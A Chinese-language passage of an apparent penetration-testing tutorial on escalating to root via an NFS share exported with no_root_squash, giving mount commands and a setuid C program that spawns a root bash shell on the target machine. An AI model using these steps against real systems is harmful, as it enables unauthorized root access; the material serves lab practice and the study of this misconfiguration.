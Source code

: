 2. 关键元素是可以在上面看到的```no_root_squash```选项
3. 默认情况下，NFS 会将 root 用户更改为 nfsnobody 并剥夺任何文件以 root 权限运行。如果“no_root_squash”选项存在于可写共享中，我们可以创建一个设置了 SUID 位的可执行文件并在目标系统上运行它.

简单点来说就是因为靶机的错误分享配置，导致攻击机挂载上去以后创建的任何文件都能够以root的身份和权限运行。

## 步骤
1. 在靶机查看 ```/etc/exports```
> cat /etc/exports

2. 检查上面分享文件是否存在```no_root_squash```选项

3. 在攻击机查看靶机的分享目录
> showmount -e 靶机IP

4. 在攻击机```/tmp/```目录下创建一个文件夹
> mkdir /tmp/expnfs

5. 把靶机有```no_root_squash```选项的文件夹挂载到攻击机上
> mount -o rw 靶机IP：/靶机共享文件夹  /tmp/expnfs  
> 例子：mount -o rw 10.0.2.12:/backups  /tmp/expnfs)

6. 创建一个c程序，把如下代码写进去。（奇怪的是创建一个shell脚本是不行的。。）
```
int main(){
setgid(0);
setuid(0);
system("/bin/bash");
return 0;
}

```

7. 在攻击机挂载目录上编译上面的c程序
```
gcc nfs.x -o nfs -w
```

8. 此时回到靶机的分享目录，就可以看见上面的nfs二进制文件，并且具有SUID权限，执行即可提权
